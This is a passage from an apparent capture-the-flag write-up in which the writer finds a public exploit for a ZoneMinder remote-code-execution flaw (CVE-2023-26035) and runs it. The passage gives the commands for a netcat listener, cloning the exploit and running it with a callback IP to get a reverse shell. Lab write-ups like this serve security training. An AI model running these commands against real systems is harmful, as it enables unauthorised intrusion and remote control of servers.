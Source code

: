 ![Zoneminder search](/assets/images/Surveillance/zoneminder_search.png)

Looking for exploits on google, we found [this](https://github.com/rvizx/CVE-2023-26035) one that says to exploit an RCE:

![Zoneminder exploit page](/assets/images/Surveillance/zoneminder_exploit_page.png)

Now let's execute it:

```bash
❯ nc -lvnp 443
❯ git clone https://github.com/rvizx/CVE-2023-26035
❯ cd CVE-2023-26035
❯ python3 exploit.py -t http://localhost:8080 -ip 10.10.14.114 -p 443
```
